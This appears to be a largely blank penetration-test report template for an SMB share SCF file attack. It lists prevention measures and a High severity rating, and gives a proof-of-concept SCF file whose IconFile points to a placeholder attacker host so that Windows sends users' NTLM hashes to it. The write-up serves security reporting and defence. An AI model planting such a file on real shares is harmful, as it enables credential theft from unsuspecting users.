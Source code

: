 



# Nmap Scan Results: 


# Initial Shell Vulnerability Exploited: [SMB Share - SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).

# Vulnerability Explanation: 

# Vulnerability Prevention: 
- Disallow write permissions in file shares for unauthenticated users
- Use of Kerberos Authentication and SMB Signing
- Ensure that NTLMv2 password hash is used instead of LanMan

# Severity: High

# Proof of Concept Code Here:
```
[Shell]
Command=2
IconFile=\\IP\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

